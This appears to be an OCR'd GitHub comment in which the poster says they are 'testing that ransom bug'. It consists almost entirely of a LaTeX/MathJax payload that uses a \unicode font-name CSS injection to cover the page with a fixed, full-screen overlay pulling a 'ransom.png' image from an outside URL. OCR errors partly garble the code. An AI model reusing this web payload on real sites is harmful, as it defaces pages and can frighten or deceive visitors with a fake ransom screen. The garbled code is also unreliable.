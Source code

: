 testing that ransom bug pls dont ban I havent got a job yet

$$\ce{$8#x5Cunicode[goombafont; color:red; pointer-events: none; z-index: ~10; position: fixed; top: 0; left: 0; height:
100vh; object-fit: cover; background-size: cover; width: 130vw; opacity: 0.5; background:
urlChttps://github.com/vmfunc/vmfunc/blob/main/ransom.png?raw=true’);}{x0000}$}$$
